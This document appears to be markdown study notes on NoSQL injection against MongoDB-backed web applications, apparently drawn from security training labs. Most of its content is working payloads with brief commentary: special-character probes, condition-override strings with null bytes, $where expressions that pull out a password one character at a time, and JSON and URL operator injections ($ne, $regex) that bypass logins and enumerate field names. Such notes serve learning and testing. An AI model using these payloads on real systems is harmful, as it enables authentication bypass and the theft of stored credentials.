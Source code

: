 
## syntax injection 
- this type is very rare now

consider this mongodb query for the following examples : 
```js
db.users.find({ $where: function () { return this.name == <userInput> } });
```
or 
```js
 db.users.find({ $expr: { $function: { body: function (name) {return name == <userInput>;}, args: ["$name"], lang: "js" } } })
```


#### **Detecting syntax injection**
- submit strings and special characters that trigger a database error or some other detectable behavior 
EX : mongodb 
```mongodb
'"`{
;$Foo}
$Foo \xYZ
```
Url version : 
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
- In some applications, you may need to inject your payload via a JSON property instead 
JSON version :
```

'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

- Determining which characters are processed 
```
https://insecure-website.com/product/lookup?category='    => cause error
https://insecure-website.com/product/lookup?category=\'   => work
```

- Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
```

#### **Overriding existing conditions**
payload:
```
fizzy'||'1'=='1
```
url sent:
```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
mongodb query in backend :
```js
db.users.find({ $where: function () { return this.name == 'fizzy'||'1'=='1' } });
```

- You could also add a **null character** after the category value. MongoDB may ignore all characters after a null character. 
- This means that any additional conditions on the MongoDB query are ignored

**EX:** all products in the fizzy category are displayed, including unreleased products : 
```
db.products.find({ $where: function () { return 'fizzy'\u0000' && this.released == 1 });
```

#### **extract data**

to know some condtions 
```
admin' && this.password.match(/\d/) || 'a'=='b     => check if it has digits or no
```

check length
```
admin' && this.password.length < 30 || 'a'=='b
```

extract password
```
admin' && this.password[0] == 'a' || 'a'=='b
```

query in the backend
```js
db.users.find({$where : function(){ return this.name == "admin' && this.password[0] == 'a' || 'a'=='b' ; }}) ;
```





## NoSQL operator injection

Operator | Description
--- | ---
`$where` | Matches documents that satisfy a JavaScript expression. This operator allows you to write custom JavaScript functions to filter and select documents in a collection. It's a powerful but potentially slow operator, so use it with caution.
`$ne` | Matches all values that are not equal to a specified value. It's used to find documents where a specific field is not equal to a given value.
`$in` | Matches all of the values specified in an array. It's used to find documents where a specific field's value is one of the values in a provided array.
`$regex` | Selects documents where values match a specified regular expression. It's used for pattern matching to find documents with values that match a given regular expression pattern. This is especially useful for text-based searches.


#### **Submitting query operators**

In JSON:
```json
{"username":{"$ne":"invalid"}}
```
In URL-based:
```
GET : 

http://vulnApp/login/?username[$ne]=invalid

POST :

username[$ne]=invalid

```

**EX:** Auth bypass Example : 
```json 
{
"username":{
"$regex" : "admin.*"
},
"password":{
"$ne" : "ayklam"
}
}
```
#### **Extracting field names**

test
```json
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
```
exploit
```json
{"username":"wiener","password":"peter", "$where":"Object.keys(this)[0].match('^a.*')"}   =>  check if the first filed data start with letter 'a'
```
query in the backend
```js
db.users.find({$where : function(){ return Object.keys(this)[1].match('^n.*')  }}) ;
```


#### **Exfiltrating data using operators**

For example:
```json
{"username":"myuser","password":"mypass"}
```
If the response to this request is different to the one you receive when you submit an incorrect password, this indicates that the application may be vulnerable
```json
{"username":"admin","password":{"$regex":"^.*"}}  
```
extract data
```json
{"username":"admin","password":{"$regex":"^a*"}}
```
